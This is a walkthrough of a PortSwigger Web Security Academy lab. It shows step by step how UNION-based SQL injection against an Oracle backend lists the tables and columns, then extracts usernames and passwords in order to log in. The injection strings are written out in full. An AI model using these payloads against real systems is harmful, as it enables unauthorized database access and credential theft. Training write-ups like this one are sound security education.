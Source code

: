 # Write-up: SQL injection attack, listing the database contents on Oracle @ PortSwigger Academy

![logo](img/logo.png)

This write-up for the lab *SQL injection attack, listing the database contents on Oracle* is part of my walkthrough series for [PortSwigger's Web Security Academy](https://portswigger.net/web-security).

Lab-Link: <https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-oracle>  
Difficulty: PRACTITIONER  
Python script: [script.py](script.py)

## Lab description

![Lab description](img/lab_description.png)

## Query

The query used in the lab will look something like

```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>'
```

## Steps

The first steps are identical to the labs [SQL injection UNION attack, determining the number of columns returned by the query](../SQL_injection_UNION_attack,_determining_the_number_of_columns_returned_by_the_query/README.md) and [SQL injection UNION attack, finding a column containing text](../SQL_injection_UNION_attack,_finding_a_column_containing_text/README.md) and are not repeated here.

As a result of these steps, I find out that the number of columns is 2, with both being string columns.

### Find users table

The database in use here is Oracle, which holds the table information in the `all_tables`-table. In the [relevant documentation](https://docs.oracle.com/en/database/oracle/oracle-database/21/refrn/ALL_TABLES.html#GUID-6823CD28-0681-468E-950B-966C6F71325D), the available columns are listed. 

I am interested in `table_name`. So I inject `' UNION SELECT table_name, null from all_tables--` into the parameter to form the following query:

I also select an invalid category so that only my output appears.

```sql
SELECT * FROM someTable WHERE category='X' UNION SELECT table_name, null from all_tables--'`
```

![name of the users table](img/found_users_table.png)

### Enumerate columns in this table

The [all_tab_columns](https://docs.oracle.com/en/database/oracle/oracle-database/21/refrn/ALL_TAB_COLUMNS.html#GUID-F218205C-7D76-4A83-8691-BFD2AD372B63)-table holds information about the columns of each table, specifically the `column_name` column. The proper string to inject is `' UNION SELECT column_name, null from all_tab_columns WHERE table_name = 'USERS_TOAEAL'--` to form this query

 ```sql
SELECT * FROM someTable WHERE category='X' UNION SELECT column_name, null from all_tab_columns WHERE table_name = 'USERS_TOAEAL'--'`
```

![username and password columns](img/username_and_password_columns.png)

### Enumerate all usernames and passwords

Now I have all information to obtain the required usernames and passwords. I inject `' UNION SELECT USERNAME_DINZLR, PASSWORD_BTNGGB from USERS_TOAEAL--` to form this query:

```sql
SELECT * FROM someTable WHERE category='X' UNION SELECT USERNAME_DINZLR, PASSWORD_BTNGGB from USERS_TOAEAL--'`
```

![usernames and passwords](img/username_and_passwords.png)

The last step is to simply log in to solve this exercise.

![success](img/success.png)
